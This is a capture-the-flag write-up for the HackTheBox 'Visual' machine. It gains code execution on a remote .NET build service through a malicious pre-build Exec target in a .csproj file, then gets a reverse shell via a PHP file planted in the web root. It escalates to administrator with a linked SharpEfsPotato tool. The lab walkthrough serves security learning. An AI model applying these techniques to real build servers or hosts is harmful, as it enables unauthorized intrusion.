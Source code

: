 ```yaml
---
layout: default_1
title: "Visual - HTB"
date: 2024-02-24
tags: writeup hackthebox visual
---
```


# HTB Visual Write Up
![HTB Visual](/assets/2024-02-24-writeups-visual-htb/machine_info.png "Visual")

## Introduction
Visual is a host that provides .NET 6 online compilation. It downloads the project from a git server and returns the compiled executable.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
<div markdown="1">
~~~
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Visual - Revolutionizing Visual Studio Builds
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
~~~
</div>
</details>

## Investigation
The only network service to investigate for now is the http.
This service provides a remote .NET 6 compilation, if a git link is provided and the project uses a solution (.sln)
![Http Service](/assets/2024-02-24-writeups-visual-htb/http_service.png "Http Service")

### Compilation service
To test this service, first and foremost we must setup a git server.
There are multiple ways of doing it, varying from minimalistic to more complex environments.
The easiest method that we found is to setup a [Gogs Server][gogs-server].
The database was SQLite3 and no SSH Server, this method provies a straight forward installation.
Downloading the pre compiled binaries and running the web server:
`./gogs web`

The setup is the following:
![Gogs setup](/assets/2024-02-24-writeups-visual-htb/gogs_setup.png "Gogs setup")

It isn't necessary to setup any administrator.
We will create an account, a repository and clone it to our local machine.

Now we need to create a .NET project. 
```
$ mkdir Test
$ dotnet new console
$ dotnet new solution
$ dotnet sln Test.sln add Test.csproj
```

Finally, testing the project `dotnet run Test.sln`.
Before we push the code, we exclude the obj/ and bin/ with .gitignore. This step is just for good practices
The repository will look like this
![Gogs repository](/assets/2024-02-24-writeups-visual-htb/gogs_repository.png "Gogs repository")

Uploading the code through our git link
![Compilation service](/assets/2024-02-24-writeups-visual-htb/compilation_service.png "Compilation service")

Waiting for the build to complete
![Waiting to build](/assets/2024-02-24-writeups-visual-htb/waiting_to_build.png "Waiting to build")

Build completed and it fails... 
![Build completed](/assets/2024-02-24-writeups-visual-htb/build_completed.png "Build completed")

Searching for the error it seems like it has something to do with cache.  
At this point we move on because it's possible to execute pre/post build scripts on a csproj.

```xml
... SNIP ...
<Target Name="Hello" BeforeTargets="BeforeBuild">
    <Exec Command="whoami" />
</Target>
... SNIP ...
```

Using [this one liner reverse shell][ps-shell], encoding with utf16 base64 and setting the command to `powershell.exe -encodedcommand BASE64` we get a reverse shell.  
In case this doesn't work, we can just issue a `ping` command and check on wireshark/tcpdump if we get a ICMP request.

### User enox
Whoami:
```
USER INFORMATION
----------------

User Name   SID
=========== =============================================
visual\enox S-1-5-21-328618757-2344576039-2580610453-1003


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

No interesting privileges, but we are executing on a High Integrity Level environment.
Users on the system:
```
administrator
enox
```

Searching for interesting home files, there were only the flag and the compilation script.
`C:\Users\enox\Documents\compile.ps1`

Looking at the xampp server files we can write into `C:\xampp\htdocs\*`
To execute commands as the xampp user we can create a shell.php file with the same reverse shell as before
```php
<?php
exec('whoami');
?>
```
Executing the reverse shell and we are `nt autority\local services`

### User nt autority\local services
Whoami:
```
USER INFORMATION
----------------

User Name                  SID
========================== ========
nt authority\local service S-1-5-19


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                                                                              Attributes                           
====================================== ================ ================================================================================================ ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                                                                                          
Everyone                               Well-known group S-1-1-0                                                                                          Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                                                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                                                                          Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                                                                          Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                                                         Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                                                                          Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3659434007-2290108278-1125199667-3679670526-1293081662-2164323352-1777701501-2595986263 Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-383293015-3350740429-1839969850-1819881064-1569454686-4198502490-78857879-1413643331    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-2035927579-283314533-3422103930-3587774809-765962649-3034203285-3544878962-607181067    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-11742800-2107441976-3443185924-4134956905-3840447964-3749968454-3843513199-670971053    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3523901360-1745872541-794127107-675934034-1867954868-1951917511-1111796624-2052600462   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

The privileges are missing, we can't just get administrator straigth forward.  
To fix this we can follow the [itm4n guide][localservice-privileges].  
Then, enabling SeImpersonatePrivileges and using [SharpEfsPotato][sharpefspotato] to get adminstrator.


[gogs-server]: <https://gogs.io/> "Gogs Server"
[ps-shell]: <https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3> "Powershell Reverse"
[localservice-privileges]: <https://itm4n.github.io/localservice-privileges/> "Local Service Privileges"
[sharpefspotato]: <https://github.com/bugch3ck/SharpEfsPotato> "SharpEfsPotato"
